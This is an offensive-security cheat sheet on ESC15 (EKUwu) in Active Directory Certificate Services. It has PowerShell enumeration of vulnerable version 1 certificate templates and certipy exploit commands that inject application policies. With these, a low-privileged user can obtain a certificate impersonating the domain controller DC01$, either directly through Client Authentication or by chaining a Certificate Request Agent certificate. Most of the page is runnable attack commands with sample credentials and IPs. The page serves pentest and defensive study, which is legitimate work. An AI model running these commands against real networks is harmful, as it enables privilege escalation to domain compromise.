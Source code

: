 ```yaml
---
description: Inject Application Policies into Version 1 Certificate Templates
---
```


# ESC15 (EKUwu)

- [https://trustedsec.com/blog/ekuwu-not-just-another-ad-cs-esc](https://trustedsec.com/blog/ekuwu-not-just-another-ad-cs-esc)




## Enumerate

Get enabled templates:

```powershell
PS > $enabledTemplates = Get-ADObject -LDAPFilter "(&(objectClass=pKIEnrollmentService))" -SearchBase "CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,$((Get-ADRootDSE).rootDomainNamingContext)" -Properties certificateTemplates | select -ExpandProperty certificateTemplates
```

Get v1 templates with `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` that are enabled:

```powershell
PS > Get-ADObject -Filter 'objectClass -eq "pKICertificateTemplate"' -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,$((Get-ADRootDSE).rootDomainNamingContext)" -Property name,msPKI-Template-Schema-Version,msPKI-Certificate-Name-Flag | ? {$_.'msPKI-Template-Schema-Version' -eq 1 -and ($_.'msPKI-Certificate-Name-Flag' -band 0x00000001)} | ? {$enabledTemplates -contains $_.name}
```




## Exploit



### ESC15 → ESC1

Abusing **Client Authentication**:

```
$ proxychains4 certipy req -u snovvcrash@megacorp.local -p 'Passw0rd!' -ca CorpCA -target CA01.megacorp.local -target-ip 192.168.1.12 -template VulnTemplate --application-policies '1.3.6.1.5.5.7.3.2' -upn 'DC01$@megacorp.local' -sid <DC01_SID> -ns 192.168.1.11 -dc-ip 192.168.1.11 -dns-tcp
```



### ESC15 → ESC3

Abusing **Certificate Request Agent**:

```
$ proxychains4 certipy req -u snovvcrash@megacorp.local -p 'Passw0rd!' -ca CorpCA -target CA01.megacorp.local -target-ip 192.168.1.12 -template VulnTemplate --application-policies '1.3.6.1.4.1.311.20.2.1' -ns 192.168.1.11 -dc-ip 192.168.1.11 -dns-tcp
$ proxychains4 certipy req -u snovvcrash@megacorp.local -p 'Passw0rd!' -pfx snovvcrash.pfx -ca CorpCA -target CA01.megacorp.local -target-ip 192.168.1.12 -template User -on-behalf-of 'MEGACORP\DC01$' -ns 192.168.1.11 -dc-ip 192.168.1.11 -dns-tcp
```
